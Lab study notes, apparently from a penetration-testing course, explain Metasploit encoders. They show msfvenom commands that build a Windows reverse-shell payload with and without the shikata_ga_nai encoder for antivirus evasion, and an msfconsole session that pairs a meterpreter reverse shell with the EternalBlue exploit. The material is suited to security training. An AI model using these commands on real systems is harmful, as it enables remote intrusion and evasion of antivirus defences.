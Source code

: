 ## Encoders

`Encoders` are used with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. `Encoders` come into play with the role of changing the payload to run on different operating systems and architectures like&#x20;

| `x64` | `x86` | `sparc` | `ppc` | `mips` |
| ----- | ----- | ------- | ----- | ------ |

Let's try to create a payload with and without encoding ->

**Without:**

```shell-session
ElFelixi0@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```

**With:**

```shell-session
ElFelixi0@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

If we want to look at the functioning of the `shikata_ga_nai` encoder, we can look at an excellent post [here](https://hatching.io/blog/metasploit-payloads2/).

If we want an Encoder for an `existing payload`. Then, we can use the `show encoders` command within the `msfconsole` to see which encoders are available for our current `Exploit module + Payload` combination.

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp


msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders
```

If we can to have a payload generation and Encoding schemes, it will be picked up by Virus Total

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
